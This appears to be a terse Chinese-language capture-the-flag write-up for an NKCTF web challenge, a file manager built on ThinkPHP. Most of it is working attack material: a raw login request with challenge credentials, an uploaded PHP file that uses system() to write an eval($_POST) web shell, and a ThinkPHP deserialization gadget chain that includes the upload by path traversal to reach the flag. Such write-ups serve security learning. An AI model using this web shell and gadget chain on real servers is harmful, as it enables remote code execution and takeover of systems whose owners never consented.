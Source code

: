 ```php  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
Origin: http://192.168.128.2  
Referer: http://192.168.128.2/  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: kodUserLanguage=zh-CN; CSRF_TOKEN=xxx  
Connection: close  
  
name=guest&amp;password=tQhWfe944VjGY7Xh5NED6ZkGisXZ6eAeeiDWVETdF-hmuV9YJQr25bphgzthFCf1hRiPQvaI&amp;rememberPassword=0&amp;salt=1&amp;CSRF_TOKEN=xxx&amp;API_ROUTE=user%2Findex%2FloginSubmit  
  
hint: 新建文件  
```  
`guest/!@!@!@!@NKCTFChu0`  
在`我的文档`处上传文件，利用链子去包含即可  
```txt  
&lt;?php system(&#34;echo &#39;&lt;?php eval(\$_POST[1]);?&gt;&#39; &gt; /var/www/html/app/1.php&#34;);?&gt;  
```  
```php  
&lt;?php  
namespace think\process\pipes{  
    use think\Collection;  
    class Windows{  
        private $files = [];  
        public function __construct(){  
            $this-&gt;files=[new Collection];  
        }  
    }  
    echo base64_encode(serialize(new Windows));  
}  
namespace think{  
    class Collection{  
        protected $items;  
        public function __construct(){  
            $this-&gt;items = new View;  
        }  
  
    }  
    class View{  
        protected $data = [];  
        public $engine = [];  
        public function __construct(){  
            $this-&gt;data[&#34;Loginout&#34;]=new Config;  
            $this-&gt;engine[&#39;name&#39;]=&#34;../../../../../../../../../../../../../../../../var/www/html/data/files/202403/23_fb210ebc/huahua.txt&#34;;  
            // $this-&gt;data[&#34;Loginout&#34;]=new Debug; #写入tips  
            // $this-&gt;engine[&#39;time&#39;]=&#34;10086&#34;;  
  
        }  
    }  
    class Config{  
    }  
    # 写入tips  
    // class Debug{  
  
    // }  
}  
?&gt;  
```  
得到`flag`  